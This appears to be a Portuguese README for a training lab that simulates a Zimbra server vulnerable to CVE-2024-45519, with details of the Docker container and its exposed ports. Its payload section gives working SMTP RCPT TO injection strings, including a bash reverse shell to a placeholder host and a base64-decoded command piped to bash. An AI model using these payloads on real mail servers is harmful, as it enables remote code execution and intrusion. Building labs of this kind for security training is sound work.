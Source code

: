 # 🎯 Laboratório MAQ-4 - Zimbra CVE-2024-45519

## 📋 Visão Geral

Este laboratório simula um ambiente Zimbra vulnerável à **CVE-2024-45519**, uma vulnerabilidade crítica que permite execução remota de código (RCE) através de injeção de comandos no servidor SMTP.

## 🚨 CVE-2024-45519 - Detalhes Técnicos

### **Descrição da Vulnerabilidade**
- **CVE ID**: CVE-2024-45519
- **Tipo**: Remote Code Execution (RCE)
- **Vetor de Ataque**: SMTP (Porta 25)
- **Gravidade**: Crítica (CVSS 9.8)
- **Componente Afetado**: Zimbra MTA (Mail Transfer Agent)

### **Mecanismo de Exploração**
A vulnerabilidade reside na validação inadequada de comandos de shell em campos SMTP, especificamente no comando `RCPT TO`. O atacante pode injetar comandos arbitrários através de expansão de shell:

```
RCPT TO: <"aabbb$(comando_malicioso)@dominio.com">
```

### **Payloads de Exemplo**
```bash
# Comando simples
RCPT TO: <"aabbb$(id)@test.com">

# Reverse shell
RCPT TO: <"aabbb$(/bin/bash -i >& /dev/tcp/IP/PORTA 0>&1)@test.com">

# Payload base64 (usado pelo exploit)
RCPT TO: <"aabbb$(echo${IFS}<base64>|base64${IFS}-d|bash)@test.com">
```

## 🐳 Configuração do Container

### **Especificações Técnicas**
- **Imagem Base**: `maattt10/zimbra8.8.15`
- **Sistema Operacional**: Ubuntu 16.04 (Xenial)
- **Zimbra Version**: 8.8.15
- **Python**: 3.5.2

### **Portas Expostas**
| Porta Externa | Porta Interna | Serviço | Descrição |
|---------------|----------------|---------|-----------|
| 22 | 22 | SSH | Acesso remoto |
| 25 | 2525 | SMTP | Servidor de correio (vulnerável) |
| 80 | 80 | HTTP | Interface web Zimbra |
| 443 | 443 | HTTPS | Interface web Zimbra (SSL) |
| 7071 | 7071 | HTTPS | Console administrativo |
| 110 | 110 | POP3 | Protocolo de correio |
| 143 | 143 | IMAP | Protocolo de correio |
| 465 | 465 | SMTPS | SMTP sobre SSL |